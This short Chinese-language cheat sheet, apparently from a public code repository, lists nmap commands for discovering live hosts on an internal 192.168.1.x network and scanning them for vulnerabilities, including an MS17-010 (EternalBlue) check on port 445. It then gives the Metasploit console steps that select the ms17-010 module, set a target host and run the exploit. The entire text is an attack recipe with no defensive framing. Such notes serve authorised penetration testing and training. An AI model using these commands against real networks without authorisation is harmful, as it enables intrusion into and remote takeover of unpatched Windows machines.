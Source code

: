 2020-03-23
Visibility: Public



内网IP存活：
```
nmap -sP 192.168.1.1-225

                       nmap -sP 192.168.1.1/24

                       nmap -sn 192.168.1.1-225

                       nmap -sn 192.168.1.1/24
```


单IP扫描漏洞: 
```
nmap --script=vuln "ip"
```



扫描永恒之蓝: 
```
nmap -p 445 --script=smb-vuln-ms17-010 192.168.1.102/24
```




利用ms17-010: `msfconsole`
```

msf5> search ms17-010

msf5> use 3

msf5> show options

msf5> set rhost="ip"

msf5> exploit
```